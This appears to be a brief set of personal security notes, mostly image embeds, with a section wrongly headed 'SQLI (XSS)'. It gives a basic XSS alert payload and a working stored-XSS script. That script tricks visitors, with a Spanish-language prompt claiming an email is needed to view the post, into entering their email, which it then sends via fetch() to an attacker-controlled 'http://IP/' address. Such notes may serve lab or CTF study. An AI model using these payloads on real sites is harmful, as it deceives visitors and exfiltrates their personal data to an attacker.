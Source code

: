 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

```python
<script>alert("XSS")</script>
```

```python
<script>
var email= prompt("introduce tu correo");

if (email==null | email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://IP/?email=" + email);
}
</script>
```

